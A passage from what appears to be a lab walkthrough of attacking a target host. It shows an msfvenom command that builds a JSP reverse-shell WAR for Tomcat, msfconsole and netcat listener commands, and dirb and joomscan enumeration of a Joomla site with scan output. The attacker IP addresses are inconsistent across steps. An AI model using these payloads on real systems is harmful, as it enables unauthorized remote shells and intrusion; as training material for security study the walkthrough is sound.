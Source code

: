 and we're in.
### Insert image here.

Now we know tomcat runs java hence jsp hence we'll use this to generate a payload;
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.227.135 LPORT=80 -f war > rs.war
```
On the attackers box we can either use msfconsole or nc as follows

### Start a listener in msfconsole
```
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD java/jsp_shell_reverse_tcp; set LHOST 10.11.0.250; set LPORT 80; set ExitOnSession false; exploit -j"
```
### Start a nc listener
```
nc -lnvp 80
```
## Method Two: Joomla

We'll follow the same drill. Port 8081 is running Joomla, hence we'll bruteforce for any hidden directories.
dirb http://192.168.175.135:8081
```
URL_BASE: http://192.168.175.135:8081/
---- Scanning URL: http://192.168.175.135:8081/ ----
==> DIRECTORY: http://192.168.175.135:8081/administrator/
==> DIRECTORY: http://192.168.175.135:8081/cache/
+ http://192.168.175.135:8081/cgi-bin/ (CODE:403|SIZE:292)
==> DIRECTORY: http://192.168.175.135:8081/components/
==> DIRECTORY: http://192.168.175.135:8081/images/
==> DIRECTORY: http://192.168.175.135:8081/includes/
+ http://192.168.175.135:8081/index.php (CODE:200|SIZE:4047)
==> DIRECTORY: http://192.168.175.135:8081/javascript/
==> DIRECTORY: http://192.168.175.135:8081/language/
==> DIRECTORY: http://192.168.175.135:8081/libraries/
==> DIRECTORY: http://192.168.175.135:8081/logs/
==> DIRECTORY: http://192.168.175.135:8081/media/
==> DIRECTORY: http://192.168.175.135:8081/modules/
==> DIRECTORY: http://192.168.175.135:8081/phpmyadmin/
==> DIRECTORY: http://192.168.175.135:8081/plugins/
+ http://192.168.175.135:8081/robots.txt (CODE:200|SIZE:304)
+ http://192.168.175.135:8081/server-status (CODE:403|SIZE:297)
==> DIRECTORY: http://192.168.175.135:8081/templates/
==> DIRECTORY: http://192.168.175.135:8081/tmp/
==> DIRECTORY: http://192.168.175.135:8081/xmlrpc/

```
Another thing we can do is use Joomscan to further enumerate
`joomscan -u http://192.168.175.135:8081`
